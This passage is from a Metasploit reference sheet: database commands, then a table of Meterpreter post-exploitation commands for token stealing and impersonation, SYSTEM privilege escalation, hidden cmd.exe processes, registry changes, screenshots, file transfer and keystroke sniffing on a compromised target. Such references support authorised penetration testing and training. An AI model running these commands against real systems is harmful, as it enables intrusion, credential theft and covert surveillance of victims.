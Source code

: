 | `db_connect <name>`                              | Create and connect to a database for driven attacks (example: db_connect autopwn).                                                                |
| `db_nmap`                                        | Use Nmap and place results in a database. (Normal Nmap syntax is supported, such as –sT –v –P0.)                                                  |
| `db_destroy`                                     | Delete the current database.                                                                                                                      |
| `db_destroy  <user:password@host:port/database>` | Delete database using advanced options.                                                                                                           |
|                                                  |                                                                                                                                                   |

**Meterpreter Commands**

| **Command**                                           | **Description**                                                                               |
| :---------------------------------------------------- | :-------------------------------------------------------------------------------------------- |
| `help`                                                | Open Meterpreter usage help.                                                                  |
| `run <scriptname>`                                    | Run Meterpreter-based scripts; for a full list check the scripts/meterpreter directory.       |
| `sysinfo`                                             | Show the system information on the compromised target.                                        |
| `ls`                                                  | List the files and folders on the target.                                                     |
| `use priv`                                            | Load the privilege extension for extended Meterpreter libraries.                              |
| `ps`                                                  | Show all running processes and which accounts are associated with each process.               |
| `migrate <proc. id>`                                  | Migrate to the specific process ID (PID is the target process ID gained from the ps command). |
| `use incognito`                                       | Load incognito functions. (Used for token stealing and impersonation on a target machine.)    |
| `list_tokens -u`                                      | List available tokens on the target by user.                                                  |
| `list_tokens -g`                                      | List available tokens on the target by group.                                                 |
| `impersonate_token <DOMAIN_NAMEUSERNAME>`             | Impersonate a token available on the target.                                                  |
| `steal_token <proc. id>`                              | Steal the tokens available for a given process and impersonate that token.                    |
| `drop_token`                                          | Stop impersonating the current token.                                                         |
| `getsystem`                                           | Attempt to elevate permissions to SYSTEM-level access through multiple attack vectors.        |
| `shell`                                               | Drop into an interactive shell with all available tokens.                                     |
| `execute -f <cmd.exe> -i`                             | Execute cmd.exe and interact with it.                                                         |
| `execute -f <cmd.exe> -i -t`                          | Execute cmd.exe with all available tokens.                                                    |
| `execute -f <cmd.exe> -i -H -t`                       | Execute cmd.exe with all available tokens and make it a hidden process.                       |
| `rev2self`                                            | Revert back to the original user you used to compromise the target.                           |
| `reg <command>`                                       | Interact, create, delete, query, set, and much more in the target’s registry.                 |
| `setdesktop <number>`                                 | Switch to a different screen based on who is logged in.                                       |
| `screenshot`                                          | Take a screenshot of the target’s screen.                                                     |
| `upload <filename>`                                   | Upload a file to the target.                                                                  |
| `download <filename>`                                 | Download a file from the target.                                                              |
| `keyscan_start`                                       | Start sniffing keystrokes on the remote target.                                               |
